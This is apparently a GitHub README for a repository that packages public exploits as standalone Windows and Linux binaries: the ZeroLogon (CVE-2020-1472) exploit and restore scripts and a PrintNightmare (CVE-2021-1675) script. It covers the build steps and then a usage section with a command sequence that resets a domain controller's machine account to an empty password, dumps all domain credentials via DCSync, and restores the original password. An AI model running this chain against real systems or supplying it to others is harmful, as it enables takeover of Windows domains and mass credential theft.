 # ZeroLogon - dirkjanm CVE-2020-1472 static binaries

### Description

This repository contains static standalone binaries for Windows and Linux (both
x64) for the following Python tools:
  - [dirkjanm's CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472) 
    Python scripts `cve-2020-1472-exploit.py` and `restorepassword.py`.
  - [cube0x0's CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675) 
    Python script `CVE-2021-1675.py`.

The build process is heavily based on work from [ropnop's
impacket_static_binaries](https://github.com/ropnop/impacket_static_binaries).
Windows and Linux binaries are built using
[PyInstaller](http://www.pyinstaller.org/), executed in [cdrx's docker
image](https://github.com/cdrx/docker-pyinstaller). The Linux binaries are
built in Ubuntu 12.04 running Glibc 2.15 and should thus be compatible with
any version of Glibc newer than 2.15.

### Build the binaries yourself

The binaries can be build directly from sources using the provided `Makefile`
after retrieving the `cdrx/pyinstaller-windows` / `cdrx/pyinstaller-linux`
docker images. 

The newly compiled binaries will be placed in the `binaries` folder.

```
# If necessary, to refresh the impacket and others GitHub repositories cloned in tmp_build.
make clean

# Help message listing the supported Makefile targets. 
make help

# All binaries for both Windows and Linux.
docker pull cdrx/pyinstaller-windows
docker pull cdrx/pyinstaller-linux
make all

# All Windows binaries.
docker pull cdrx/pyinstaller-windows
make windows

# All Linux binaries.
docker pull cdrx/pyinstaller-linux
make linux
```

### Usage example of dirkjanm's CVE-2020-1472 exploit

```
# Sets an empty password for the targeted DC machine account.
cve-2020-1472-exploit_windows.exe "<DC_NETBIOS_NAME>" "<DC_IP>"

# DCSync using the DC machine account.
# Static version of secretsdump.py: https://github.com/ropnop/impacket_static_binaries
secretsdump_windows.exe -just-dc -no-pass "<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>"

# Retrieves the original DC machine account password.
# A secretsdump.exe binary built after impacket's September 15th 2020 update should be used (as it will automatically dump the plaintext machine password hex encoded required for the restoration).
secretsdump_windows.exe -hashes ":<NTLM>" "<DOMAIN>/<Administrator | DA_USERNAME>@<DC_IP>"

# Restores the DC machine account's original password.
restorepassword_windows.exe -target-ip "<DC_IP>" -hexpass "<DC_MACHINE_ACCOUNT_HEX_PASSWORD>" "<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>"
```
